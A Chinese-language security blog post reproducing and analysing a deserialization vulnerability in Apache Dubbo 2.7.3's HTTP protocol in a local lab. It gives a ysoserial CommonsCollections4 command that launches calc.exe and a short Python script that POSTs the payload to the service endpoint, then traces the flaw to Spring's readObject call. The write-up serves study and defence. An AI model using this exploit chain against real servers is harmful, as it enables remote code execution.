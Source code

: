 ### 0x01 前言

这又是一个反序列化案例，其实没什么新奇的东西，本文只是记录一下我的分析过程。顺便认识一下apache dubbo

Apache dubbo是一个是基于Java的高性能开源RPC框架。它支持dubbo，http,rmi,hessian等协议。本次问题出现在dubbo开启http协议后，会将消费者提交的request请求，在无安全校验的情况下直接交给了spring-web.jar进行处理，最终request.getInputStream()被反序列化,故存在反序列化漏洞

### 0x02 复现
#### 复现环境：
- Windows 10
- jdk 11
- zookeeper 3.5.7
- dubbo 2.7.3
- commons-collections 4.0
  
#### 复现细节
这个漏洞要是黑盒利用的话还是有难点的，那就是要知道远程对象的路径是多少，在不知道这个路径的情况下是不能够利用的，所以这个漏洞是写不了通用poc的。

我们用官方案例搭建测试环境：https://github.com/apache/dubbo-samples/ ，选择其中的dubbo-samples-http案例，这个就是基于http协议的远程对象调用的案例。案例是基于maven的，所以只要用idea打开项目，会自动帮我们下载对应的依赖。注意，由于官方的案例使用的dubbo版本是不存在漏洞的，所以我们需要修改案例中的pom.xml文件，将dubbo的版本修改为`2.7.3`:

![](dubbo_unser/pom.png)

除此之外，为了弹出计算器，我们手动添加一下commons-collections4.jar到pom文件中：

```xml
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
```

注： 还有，可能zookeeper启动会占用端口8080与2181，所以，我们还需要修改http_provider.xml中的http端口：

![](dubbo_unser/http_provider.png)

当然，除了各种案例中所需的依赖，dubbo还需要zookeeper，这个也是需要我们自行安装的，下载地址：https://zookeeper.apache.org/releases.html

然后依次运行zookeeper,provider,在Provider启动过后，我们可以给consumer设置代理，然后用burp抓一下请求包，可以看到抓包内容如下：

![](dubbo_unser/burp.png)

可见实际上是向` /org.apache.dubbo.samples.http.api.DemoService`接口发送了一个post请求，而且发送的是序列化的数据，可以看到序列化数据的特征值：

![](dubbo_unser/aced0005.png)

然后我们利用ysoserial工具生成一个commonscollections4的payload，命令如下：

`java -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsCollections4 "calc.exe" > payload.ser`

然后简单写一个python脚本发送该payload到对应的接口：

```python
import requests
# 本地测试的poc
# 地址请自行修改
url = " http://169.254.203.5:8181/org.apache.dubbo.samples.http.api.DemoService"
headers = {
    "Content-Type": "application/x-java-serialized-object"
}
with open("./dubbo.ser", "rb") as file:
    payload = file.read()
requests.post(url, data=payload, headers=headers, timeout=3, verify=False)
```

运行该poc,就会触发弹出计算器了：

![](dubbo_unser/calc.png)

### 0x04 漏洞分析

其实我在写这篇文章之前是看了别人的分析文章的，大概知道了就是一个POST请求的事情，然后我在自己分析的时候就在想这个post请求一定是提交到某个spring应用去了，然后我就翻了下jar包，发现有一个spring-web.jar，然后随便找了一下这个jar中的类，可以看到比较值得怀疑的文件夹：

![](dubbo_unser/spring_web.png)

然后翻了下这两个文件夹,最终觉得这个接口可能是处理http请求有关（毕竟命名已经这么赤裸裸了）:

![](dubbo_unser/Httprequesthandler.png)

点进去，使用IDEA可以直接右键点击接口名，然后find implementations

![](dubbo_unser/impl.png)

可以找到上图中圈起来的那个实现类，这个类也是最可疑的是吧，然后跟进去看一眼：

![](dubbo_unser/httpinvoker.png)

然后我看到这几个方法，就知道确实是这里了（毕竟之前已经看过其他分析文章了），然后下了几个断点，发送了一下poc,成功触发了断点。这次就是这么幸运的捕捉到了漏洞的触发链23333.

上述只是我个人在捕捉漏洞利用链的一个记录...

最终反序列化的触发是在上图中的46行的`doReadRemoteInvocation`函数内，函数实现如下：

```java
    protected RemoteInvocation doReadRemoteInvocation(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        Object obj = ois.readObject();
        if (!(obj instanceof RemoteInvocation)) {
            throw new RemoteException("Deserialized object needs to be assignable to type [" + RemoteInvocation.class.getName() + "]: " + ClassUtils.getDescriptiveType(obj));
        } else {
            return (RemoteInvocation)obj;
        }
    }
```

可以看到直接执行了`ois.readObject()`，而ois我们往上回溯一下来源：`ois=this.createObjectInputStream(this.decorateInputStream(request, is))`,而createObjectInputStream就是把一个inputStream正确的包装成ObjectInputStream,而decorateInputStream方法实现如下：

```java
    protected InputStream decorateInputStream(HttpServletRequest request, InputStream is) throws IOException {
        return is;
    }
```

直接返回了第二个参数的值，那么第二个参数的值是多少呢？也就是is变量是多少呢？就是`request.getInputStream()`,其实就是我们post发送的值。所以，用户在知道远程对象接口的情况下，发送一个恶意的序列化数据，就可以攻击服务器


### 0x05 其他

这篇文章就单纯是一个记录，没有着重讲解整个利用链的细节，欲进一步了解利用链的细节，可以看看其他师傅的文章：

https://mp.weixin.qq.com/s/CMA79NyeZN2e_nSxj8L-wQ

这篇文章的分析流程就比较中规中矩了，很nice




